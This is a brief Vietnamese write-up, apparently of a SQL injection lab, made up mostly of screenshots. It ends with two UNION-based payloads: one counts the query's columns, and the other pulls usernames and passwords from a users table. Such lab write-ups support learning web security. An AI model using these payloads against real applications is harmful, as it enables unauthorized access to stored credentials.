 ![image](https://github.com/user-attachments/assets/dd149e69-854a-4b71-af22-d3023e431ec1)

![image](https://github.com/user-attachments/assets/3b48dbed-97ab-42fc-bffd-cd9583bd4cbc)

![image](https://github.com/user-attachments/assets/55c92c06-94c6-4407-9d87-c2e099987f22)

Ta xác định được trong câu query có 2 cột.

![image](https://github.com/user-attachments/assets/a1f819ff-a63e-4108-b166-470480767e04)

Nó đã cho chúng ta cột và bảng rồi, giờ chỉ việc lấy và query vào thôi :"))

![image](https://github.com/user-attachments/assets/a81dfe16-acd6-4001-a4ab-7542c3426c2d)

Vậy là thành công.

Payload:

```
'union+select+null,null,null--%2b
'+UNION+SELECT+username,+password+FROM+users--
```
